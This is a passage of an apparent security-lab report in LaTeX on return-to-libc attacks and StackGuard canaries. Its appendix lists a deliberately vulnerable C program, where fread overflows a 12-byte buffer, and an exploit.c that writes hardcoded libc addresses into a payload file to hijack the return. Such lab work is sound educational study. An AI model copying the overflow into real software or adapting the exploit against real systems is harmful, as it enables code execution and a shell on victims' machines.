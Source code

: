 \documentclass[a4paper,12pt]{article}
\begin{document}
\subsection{StackGuard}
Similar to the buffer overflow lab, the StackGuard feature introduces a canary value which checks whether the return address has been modified. As such, the program will terminate with an error ``stack smashing detected''.
\newpage
\section{Appendix}
\label{App}
\subsection{Return to Libc: \texttt{retlib.c}}
\begin{verbatim}
#include <stdlib.h>
#include <stdio.h>
#include <string.h>

int bof (FILE *badfile)
{
	char buffer[12];
	/* The following statement has a buffer overflow problem */
	fread(buffer, sizeof(char), 40, badfile);
	
	return 1;
}

int main(int argc, char **argv)
{
	FILE *badfile;
	badfile = fopen("./badfile", "r");
	bof(badfile);
	
	printf("Returned Properly\n");
	
	fclose(badfile);
	return 1;
}
\end{verbatim}
\newpage
\subsection{Buffer Write Operation: \texttt{exploit.c}}
\begin{verbatim}
#include <stdlib.h>
#include <stdio.h>
#include <string.h>
int main(int argc, char **argv)
{
    char buf[40];
    FILE *badfile;

    badfile = fopen("./badfile","w");

    /* Need to determine the addresses */

    *(long *) &buf[32] = 0xb7f80fb8;
    *(long *) &buf[24] = 0xb7e5f430;
    *(long *) &buf[28] = 0xb7e52fb0;

    fwrite(buf, sizeof(buf), 1, badfile);
    fclose(badfile);
}

\end{verbatim}
\end{document}
